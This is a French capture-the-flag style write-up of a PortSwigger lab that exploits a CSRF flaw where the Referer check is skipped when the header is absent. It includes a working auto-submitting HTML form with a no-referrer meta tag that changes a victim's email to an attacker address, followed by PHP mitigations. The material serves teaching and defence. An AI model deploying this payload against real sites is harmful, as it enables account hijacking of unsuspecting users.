


# Portswigger – Challenge 5 : CSRF where Referer validation depends on header being present

## 1. Nom du challenge & URL

**Nom** : Challenge 5 – CSRF where Referer validation depends on header being present

**URL** : `https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-depends-on-header-being-present`

---

## 2. Objectif

Le but du challenge est d'exploiter une vulnérabilité **CSRF** (Cross-Site Request Forgery) pour changer l'adresse email du compte de la victime.

**Compte disponible pour concevoir l'attaque** :
* **wiener** : peter

---

## 3. Étapes de découverte de la vulnérabilité

1. En arrivant sur la page du lab, on voit un site de blog avec deux liens principaux : **Home** et **My account**.

2. On ouvre **Burp Suite** et on active l'interception (Proxy > Intercept > **Intercept is on**).

3. On se connecte avec le compte **wiener:peter** et on accède à la page "My account".

4. On observe un formulaire permettant de changer l'adresse email. On tente de modifier l'email (par exemple : `test@test.com`) et on clique sur **"Update email"**.

5. Dans Burp Suite, on intercepte la requête POST vers `/my-account/change-email`. On l'envoie ensuite dans **Burp Repeater** (clic droit > Send to Repeater).

6. Dans la requête, on observe plusieurs éléments importants :

   ```http
   POST /my-account/change-email HTTP/2
   Host: 0aa800b2035cb26e813311420023009f.web-security-academy.net
   Cookie: session=lXQGGOe4fDKGPd43c5U3C2oTXRT9nNJL
   Content-Length: 21
   Referer: https://0aa800b2035cb26e813311420023009f.web-security-academy.net/my-account?id=wiener

   email=test%40test.com
   ```

   

   On remarque qu'il **n'y a pas de token CSRF** dans cette requête. Le site semble se protéger uniquement avec le header **Referer**.

7. On teste en **supprimant complètement le header Referer** (ligne 19) de la requête dans Burp Repeater.

8. On clique sur **"Send"** et on observe la réponse.

9. La requête est acceptée avec un code `HTTP/2 302 Found` !

   

   Cela révèle la vulnérabilité : le serveur vérifie le header Referer **seulement s'il est présent**. Si le header Referer est **absent**, la requête est acceptée sans vérification !

---

## 4. Payload utilisé

```html
<html>
  <head>
    <meta name="referrer" content="no-referrer">
  </head>
  <body>
    <form action="https://0aa800b2035cb26e813311420023009f.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker@evil.com" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### Explication du payload :

* **`<meta name="referrer" content="no-referrer">`** : Balise meta qui empêche le navigateur d'envoyer le header Referer. C'est l'élément clé de l'exploit !
* **`<form action="...">`** : Formulaire HTML qui cible l'URL de changement d'email du site vulnérable.
* **`method="POST"`** : Méthode HTTP utilisée par la fonctionnalité de changement d'email.
* **`input type="hidden" name="email"`** : Champ caché contenant la nouvelle adresse email (celle de l'attaquant).
* **`<script>document.forms[0].submit();</script>`** : JavaScript qui soumet automatiquement le formulaire dès que la page est chargée.

Cela permet de changer automatiquement l'email de la victime lorsqu'elle visite la page malveillante hébergée sur l'exploit server, car le navigateur n'enverra pas le header Referer.

---

## 5. Déploiement de l'exploit

1. Sur la page du lab, on clique sur le bouton **"Go to exploit server"**.

2. Dans le champ **"Body"**, on colle le code HTML de l'exploit ci-dessus.

3. On clique sur **"Store"** pour sauvegarder l'exploit sur le serveur.

4. On clique sur **"Deliver to victim"** pour envoyer l'exploit à la victime.

Lorsque la victime visite la page malveillante, son email est automatiquement changé en `hacker@evil.com` et le challenge est validé

---

## 6. Screenshot

Voici un screenshot montrant la requête dans Burp Repeater sans le header Referer :



---

## 7. Recommandations pour sécuriser la vulnérabilité

Pour corriger cette vulnérabilité CSRF basée sur la validation du Referer, il faut implémenter les mesures suivantes :

### 7.1. Implémenter des tokens CSRF liés aux sessions

Ne jamais se fier uniquement au header Referer. Utiliser des tokens CSRF robustes [1] [2] :

```php
// Générer un token lié à la session
$_SESSION['csrf_token'] = bin2hex(random_bytes(32));

// Vérifier que le token correspond à la session
if (!hash_equals($_SESSION['csrf_token'], $_POST['csrf'])) {
    die('Invalid CSRF token');
}
```

### 7.2. Valider le Referer de manière stricte

Si on utilise la validation du Referer, il faut l'exiger et ne pas l'accepter s'il est absent [2] [5] :

```php
$referer = $_SERVER['HTTP_REFERER'] ?? '';

// Rejeter si le Referer est absent
if (empty($referer)) {
    die('Referer header required');
}

// Vérifier que le Referer provient du bon domaine
if (!str_starts_with($referer, 'https://example.com/')) {
    die('Invalid referer');
}
```

### 7.3. Utiliser l'attribut SameSite sur les cookies

Empêcher l'envoi automatique des cookies lors de requêtes cross-site [2] [3] :

```php
setcookie('session', $session_id, [
    'samesite' => 'Strict',
    'secure' => true,
    'httponly' => true
]);
```

### 7.4. Vérification de l'origine (Origin header)

Valider également le header Origin qui est plus fiable que le Referer [2] [5] :

```php
$origin = $_SERVER['HTTP_ORIGIN'] ?? '';

// Rejeter si l'Origin est absent pour les requêtes POST
if (empty($origin) && $_SERVER['REQUEST_METHOD'] === 'POST') {
    die('Origin header required');
}

// Vérifier l'origine
$allowed_origins = ['https://example.com'];
if (!in_array($origin, $allowed_origins)) {
    die('Invalid origin');
}
```

### 7.5. Combiner plusieurs mécanismes de défense

Utiliser une approche de défense en profondeur en combinant plusieurs protections [1] [4] :

```php
// 1. Vérifier le token CSRF
if (!hash_equals($_SESSION['csrf_token'], $_POST['csrf'])) {
    die('Invalid CSRF token');
}

// 2. Vérifier l'Origin si présent
$origin = $_SERVER['HTTP_ORIGIN'] ?? '';
if (!empty($origin) && !in_array($origin, $allowed_origins)) {
    die('Invalid origin');
}

// 3. Vérifier le Referer si présent
$referer = $_SERVER['HTTP_REFERER'] ?? '';
if (!empty($referer) && !str_starts_with($referer, 'https://example.com/')) {
    die('Invalid referer');
}
```

### 7.6. Requêtes sensibles nécessitant une re-authentification

Pour les actions critiques comme le changement d'email, demander le mot de passe actuel [3] [5] :

```php
if (!password_verify($_POST['current_password'], $user['password_hash'])) {
    die('Current password required for this action');
}
```

---

## 8. Références

[1] [OWASP – Cross-Site Request Forgery Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html) - Token validation et défense en profondeur

[2] [PortSwigger – CSRF](https://portswigger.net/web-security/csrf) - Vue d'ensemble des attaques CSRF et protections

[3] [MDN – SameSite Cookies](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie/SameSite) - Protection via les cookies SameSite

[4] [OWASP – CSRF](https://owasp.org/www-community/attacks/csrf) - Attaques CSRF et contre-mesures

[5] [CWE-352: Cross-Site Request Forgery](https://cwe.mitre.org/data/definitions/352.html) - Description de la vulnérabilité CSRF